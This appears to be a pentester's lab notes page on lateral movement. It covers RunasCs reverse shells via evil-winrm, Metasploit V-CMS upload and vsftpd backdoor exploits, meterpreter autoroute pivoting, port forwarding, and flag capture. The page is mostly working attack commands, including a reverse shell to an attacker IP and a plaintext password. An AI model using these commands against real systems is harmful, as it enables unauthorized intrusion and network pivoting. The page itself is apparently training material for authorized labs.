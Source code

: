 ```yaml
---
title: Lateral movements
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
---
```


# Lateral movements


## Windows

### Running as another user

Logged as user1 with evil-winrm we cannot run psexec or any other tool requiring to confirm a modal, since we only have terminal access. 

However, the tester can use the binary RunasCs.exe from: https://github.com/antonioCoco/RunasCs/releases. Forked in the tester repo: https://github.com/amandaguglieri/RunasCs

Upload the binary to the machine:

```bash
*Evil-WinRM* PS C:\Users\svc_winrm\Desktop> upload RunasCs.exe
```

Set a listener in a different terminal from the attacker's machine:

```bash
nc -lnvp 1234
```

Run a reverse shell:

```bash
.\RunasCS.exe svc_ldap M1XyC9pW7qT5Vn  powershell.exe -r 10.10.14.129:1234
```



## Scenario 1

Lateral movement is a technique that adversaries use, after compromising an endpoint, to extend access to other hosts or applications in an organization.

![lateral-movement.png](img/lateral-movement.png)


### using metasploit

1. Get our ip

```bash
ip a 
# 192.64.166.2
```

2. Get machine ip 

```bash
ping demo.ine.local
# 192.64.166.3
```

3. Enumerate services in the target machine  

```bash
nmap -sV -sS -O 192.64.166.3
# open ports: 80 and 3306.
```

4. Go further on port 80

```bash
nmap 
# In the scan you will see: V-CMS-Powered by V-CMS  and PHPSESSID: httponly flag not set
```

5. Launch metasploit and search for v-cms

```bash
service postgresql start
msfconsole -q
```

```msf
search v-cms
```

6. Use the exploit exploit/linux/http/vcms_upload, configure it and run it

```msf
use exploit/linux/http/vcms_upload
show options
```

```msf
set RHOST 192.64.166.3
set TARGETURI /
set LHOST 192.64.166.2
set payload php/meterpreter/reverse_tcp
run
```

7. You will get a limited meterpreter. Access to the shell and print the flag

```msf
meterpreter> shell
> cat /root/flag.txt
# 4f96a3e848d233d5af337c440e50fe3d
```

8. Map other possible interfaces in the machine. Since ifconfig does not work, spawn the shell and try again

```bash
ifconfig 
# does not work
```

```bash
ipconfig
# does not work
```

```bash
which python
# it’s located under /bin, so we can use python to spawn the shell
```

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
$root@machine> ifconfig
# it tells us about another interface: 192.182.147.2
```


#### route

9. Add tunnel from interface 192.64.166.3 (which is session 1 of meterpreter) and the discovered interface, 192.182.147.2 with the utility route:

```bash
$root@machine> exit
```

```msf
meterpreter> run autoroute -s 192.182.147.0 -n 255.255.255.0
# you can also add a route out of the meterpreter. In that case you need to specify the meterpreter session: route add 192.182.147.0 .0 255.255.255.0 1
```

10. Background the meterpreter session and check if the route is added successfully to the metasploit's routing table.

```msf
meterpreter> background
msf> route print
```

11. Run auxiliary TCP port scanning module to discover any available hosts (From IP .3 to .10). And, if any of ports 80, 8080, 445, 21 and 22 are open on those hosts.

```msf
msf> use auxiliary/scanner/portscan/tcp

msf  auxiliary/scanner/portscan/tcp > set PORTS 80, 8080, 445, 21, 22

msf  auxiliary/scanner/portscan/tcp > set RHOSTS 192.69.228.3-10

msf  auxiliary/scanner/portscan/tcp > exploit
# Give us ports 21 and 22 open at 192.182.147.3
```

#### portfwd

12. In order to reach the discovered target, we need to fordward remote machine port to the local machine port. We want to target port 21 of that machine so we will forward remote port 21 to the local port 1234. This is done with the utility portfwd from meterpreter

```msf
msf  auxiliary/scanner/portscan/tcp > sessions -i 1

meterpreter> portfwd
# Tell you  there is none configured

meterpreter> portfwd add -l 1234 -p 21 -r 192.182.147.3
# -l: local port 
# -p 21 The port we are targeting in our attack 
# -r the remote host

meterpreter> portfwd list
# It tells the active Port Forwards. Now, scan the local port using Nmap
```

13. Run nmap on the forwarded local port to identify the service name

```msf
meterpreter> background

msf> nmap -sS -sV -p 1234 localhost
# It tells you the ftp version: vsftpd 2.0.8 or later
```

14. Search for vsftpd exploit module and exploit the target host using vsftpd backdoor exploit module.

```msf
msf > search vsftpd 
msf> use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit/unix/ftp/vsftpd_234_backdoor>   set RHOSTS 192.69.228.3
msf exploit/unix/ftp/vsftpd_234_backdoor> exploit

# Sometimes, the exploit fails the first time. If that happens then please run the exploit again.

$> id
# you are root.
```

15. Print the flag

```msf
$> cat /root/flag.txt
# 58c7c29a8ab5e7c4c06256b954947f9a
```
